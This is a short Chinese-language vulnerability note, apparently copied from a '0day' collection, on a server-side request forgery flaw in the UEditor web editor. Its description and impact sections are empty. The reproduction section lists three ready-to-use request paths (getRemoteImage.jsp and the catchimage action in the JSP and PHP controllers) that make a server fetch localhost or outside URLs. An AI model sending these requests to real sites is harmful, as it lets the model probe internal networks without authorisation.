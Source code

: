 # ueditor ssrf

> 原文：[http://book.iwonder.run/0day/Ueditor/1.html](http://book.iwonder.run/0day/Ueditor/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

存在漏洞路径：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

存在就会抓取成功、也可以抓取外网的测试 
```

